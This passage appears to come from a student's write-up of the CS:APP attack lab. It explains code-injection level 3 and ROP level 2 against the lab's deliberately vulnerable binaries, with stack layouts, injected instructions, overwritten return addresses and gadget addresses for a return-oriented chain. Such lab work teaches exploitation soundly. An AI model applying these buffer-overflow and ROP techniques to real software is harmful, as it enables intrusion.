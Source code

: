 ```
            | mov $0x59b997fa,%rdi + retq |
0x5561dc78  +-----------------------------+ <- rsp-0x28 (buf)
```

## CI Level 3

Need to pass a string pointer to `touch3` that matches the hexadecimal representation of the cookie. Just like level 2, we put the code at `buf`, but at level 3 we cannot place the string within the `buf` area, because when `getbuf` returned, the `buf` is below the stack pointer. Other functions might allocate this stack area and overwrite the data within it. To make the string safe, we put it at `buf+0x38` just after the return address. See [c3.txt](c3.txt).

The memory snapshot before returning from `getbuf`.
```
# text:
00000000004017a8 <getbuf>:
  ...
> 4017bd:	c3                   	retq

00000000004018fa <touch3>:
  ...

# stack:
            +-----------------------------+
            |          "59b997fa"         |
0x5561dcb0  +-----------------------------+ <- rsp+0x10 (buf+0x38)
            |     0x00000000'004018fa     |
0x5561dca8  +-----------------------------+ <- rsp+0x8 (buf+0x30)
            |     0x00000000'5561dc78     |
0x5561dca0  +-----------------------------+ <- rsp (buf+0x28)
            |             ...             |
            +-----------------------------+
            | mov $0x5561dcb0,%rdi + retq |
0x5561dc78  +-----------------------------+ <- rsp-0x28 (buf)
```

## ROP Level 2

In `rtarget`, ASLR is enabled and stack segment is nonexecutable. We need use the gadgets to pass the cookie into `touch2`. Store the cookie on stack and use `popq` to pass it into a register. Then move the data to `$rdi`, and finally jump to `touch2`. See [r2.txt](r2.txt).
```
# text:
00000000004017a8 <getbuf>:
  ...
> 4017bd:	c3                   	retq

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   

# (gdb) x/3i 0x004019ab
   0x4019ab <addval_219+4>:     pop    %rax
   0x4019ac <addval_219+5>:     nop
   0x4019ad <addval_219+6>:     retq

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   

# (gdb) x/3i 0x004019c5
   0x4019c5 <setval_426+2>:     mov    %rax,%rdi
   0x4019c8 <setval_426+5>:     nop
   0x4019c9 <setval_426+6>:     retq
```